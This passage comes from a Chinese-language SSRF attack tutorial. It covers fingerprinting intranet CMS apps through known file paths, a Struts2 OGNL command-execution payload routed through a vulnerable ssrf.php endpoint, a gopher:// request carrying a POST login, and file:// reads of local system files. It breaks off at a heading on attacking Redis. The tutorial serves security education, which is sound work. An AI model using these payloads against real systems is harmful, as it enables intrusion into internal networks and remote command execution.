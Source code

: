 **有一些端口服务的banner有就会探测到输出到页面上，或者开放的端口访问的状态码是5开头(500、501、503...)或者4开头(403、404...)等。端口未开放访问的网页的时间会比较长。**

## 6.4. 对内网web进行指纹识别

通过构造一些cms的特征图片、目录、文件等去进行请求，如果内网192.168.1.124这台服务8080端口存在phpmyadmin，访问就会出现该图片

其他的同理

 

- http://192.168.1.124:8080/phpMyAdmin/themes/original/img/b_tblimport.png
- http://192.168.1.124:8081/wp-content/themes/default/images/audio.jpg
- http://192.168.1.124:8082/profiles/minimal/translations/README.txt

## 6.5. 对内部主机和端口发送请求包进行攻击

这里是用get方法可以攻击的web，比如struts2命令执行、Thinkphp、Jboss等。

以下是针对内网192.168.1.139这台服务器进行攻击，执行命令whoami

```
http://localhost/ssrf.php?url=http://192.168.1.139:8081/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}.action
```

post方法我们可以用gophar协议去发送请求数据包

```
http://localhost/ssrf.php?url=gopher://192.168.1.124:6667/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20127.0.0.1%3A2233%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250a%250d%250ausername%3Dadmin%26password%3Dpassword
```

## 6.6. file协议读取本地文件（5.2有写）

这里的构成可以通过 url参数接收，去尝试请求内网资源

Windows:

```
http://localhost/ssrf.php?url=file:///c:\\windows\\csup.txt
```

Linux:

```
http://localhost/ssrf.php?url=file:////etc/csup.txt
```

file协议利用，这里读取windows目录下的csup.txt文件内容

![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207160745146-1196790833.png)

## 6.7. SSRF攻击Redis
